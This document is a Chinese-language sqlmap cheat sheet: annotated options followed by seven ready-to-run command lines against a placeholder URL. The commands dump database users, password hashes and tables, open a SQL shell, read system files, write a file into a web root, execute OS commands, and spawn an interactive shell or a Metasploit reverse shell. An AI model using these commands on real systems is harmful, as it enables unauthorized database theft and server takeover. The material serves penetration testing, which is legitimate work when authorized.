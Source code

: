 ```plain
-v  #详细的等级(0-6) 
    0：只显示Python的回溯，错误和关键消息。 
    1：显示信息和警告消息。 
    2：显示调试消息。 
    3：有效载荷注入。 
    4：显示HTTP请求。 
    5：显示HTTP响应头。 
    6：显示HTTP响应页面的内容 
--privileges  #查看权限 
--is-dba      #是否是数据库管理员 
--roles       #枚举数据库用户角色 
--udf-inject  #导入用户自定义函数（获取系统权限） 
--union-check  #是否支持union 注入 
--union-cols #union 查询表记录 
--union-test #union 语句测试 
--union-use  #采用union 注入 
--union-tech orderby #union配合order by 
--data "" #POST方式提交数据(--data "page=1&id=2") 
--cookie "用;号分开"      #cookie注入(--cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”) 
--referer ""     #使用referer欺骗(--referer "http://www.baidu.com") 
--user-agent ""  #自定义user-agent 
--proxy "http://127.0.0.1:8118" #代理注入 
--string=""    #指定关键词,字符串匹配. 
--threads 　　  #采用多线程(--threads 3) 
--sql-shell    #执行指定sql命令 
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" ) 
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 


常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
```